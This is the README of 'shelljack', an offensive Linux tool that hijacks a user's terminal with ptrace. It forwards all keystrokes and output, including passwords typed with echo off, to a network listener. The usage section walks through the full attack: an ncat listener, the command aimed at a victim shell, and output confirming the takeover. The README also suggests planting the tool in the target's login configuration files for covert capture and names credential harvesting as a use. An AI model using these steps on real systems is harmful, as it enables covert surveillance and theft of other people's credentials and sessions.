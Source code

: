 # shelljack #

_shelljack_ is a [terminal](http://en.wikipedia.org/wiki/Computer_terminal) [sniffer](http://en.wikipedia.org/wiki/Packet_analyzer) for [Linux](http://en.wikipedia.org/wiki/Linux) [x86_64](http://en.wikipedia.org/wiki/X86_64) machines. 

**What is a "terminal sniffer"?**

A terminal sniffer is a piece of software that inspects user [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. The most common usage of this term would be a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging). However, _shelljack_ would need to be made much more complex to become a simple keystroke logger. In addition to reporting back all keystrokes put into the terminal, _shelljack_ also reports back all of the data returned back out through the terminal.

**So it's a kernel module then?**

No. _shelljack_ works entirely in [user space](http://en.wikipedia.org/wiki/User_space) to perform the [shelljacking](https://github.com/emptymonkey/shelljack).

**What is shelljacking?**

It's a term I use to describe a very specific type of terminal sniffing attack. _shelljack_ performs a [pseudo terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack).

**So, I can use this to see what someone is doing in their shell?**

Yes, and more. This tool will happily target any process, but is designed to be used against a [session leader](https://github.com/emptymonkey/ctty), which usually means a users [shell](http://en.wikipedia.org/wiki/Unix_shell). Also, it is important to note that a successful shelljacking means you are embedded in the traffic flow between user and the program. *You will be sniffing all traffic down the line, including child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, it really isn't "[hacking](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29)". There are no exploits here. _shelljack_ takes advantage of [deep magic](http://en.wikipedia.org/wiki/Deep_magic) in Linux that, while often not well understood, is completely legitimate. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a "[sploit](http://en.wikipedia.org/wiki/Sploit)", it is a very handy tool designed to empower [pentesters](http://en.wikipedia.org/wiki/Pentester), [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), and educators.

**Do I need to be root already to use it?**

No. You need "appropriate permissions" in order for it to work. That means you will either need to be root, or the uid of the target process. 

**Why would I use this?**

* As a pentester who has gained execution as a user, you can now shelljack that user for further reconnaissance and credential harvesting.
* As a forensic analyist, you can eavesdrop on the user who is the target of your investigation (after you've recieved the appropriate authority to do so from the heads of Security, Legal, and HR, of course.)
* As a sysadmin, or other educator, to publicly demonstrate why sane file permissions are important. 

**How does it work?**

[ptrace](http://en.wikipedia.org/wiki/Ptrace): If you want to *really* understand the inner workings of a Linux process and other deep magic, learn ptrace. The best intro I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

[tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29): If you want to understand shelljacking, then you will need to understand the underlying tty semantics. The best tutorial on the topic is [The TTY demystified](www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

**Is this portable to other OSs/Architectures?**

We are using a Linux semantic (ptrace) to inject syscalls using their assembly form. Nothing here is portable. That said, check out my other project, [_ptrace_do_](https://github.com/emptymonkey/ptrace_do). If I get around to supporting _ptrace_do_ for other architectures, then porting _shelljack_ shouldn't be too hard.

# Usage # 

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) as well as the I/O, _shelljack_ must detach from the launching terminal. As such, you'll need a listener to catch its eavesdropped output. [Netcat](http://en.wikipedia.org/wiki/Netcat) works nicely for this. (We've chosen localhost and port 9999 here. Anything that the machine can route, however, _shelljack_ will happily use.)

Let's setup the listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ while [ 1 ]; do ncat -l localhost 9999; done

Since this is a demo, let's also look at the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -apl /proc/$$/fd
	total 0
	dr-x------ 2 empty empty  0 Jun 16 16:17 ./
	dr-xr-xr-x 8 empty empty  0 Jun 16 16:17 ../
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch shelljack against the target pid:

	empty@monkey:~/code/shelljack$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

Back at the listener, you will now see all the I/O in real time as the user interacts with the shelljacked shell. For further evidence of this, lets go examine the target shell again:

	empty@monkey:~$ ls -apl /proc/$$/fd
	total 0
	dr-x------ 2 empty empty  0 Jun 16 16:17 ./
	dr-xr-xr-x 8 empty empty  0 Jun 16 16:17 ../
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 ./shelljack localhost 9999 19716

Finally, we can see that _shelljack_ has successfully taken over /dev/pts/3, and is now serving up /dev/pts/4 for the target shell to consume. It sits as the quintessential mitm, and will happily forward you a copy of everything it sees. (Yes, even with "[echo off](http://linux.die.net/man/1/stty)".)

Also note, _shelljack_ was designed with the ability to attack the shell that is calling it. This makes it ideal for launching out of the targets login shell through its [configuration files](http://en.wikipedia.org/wiki/.profile#Configuration_files_for_shells).

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

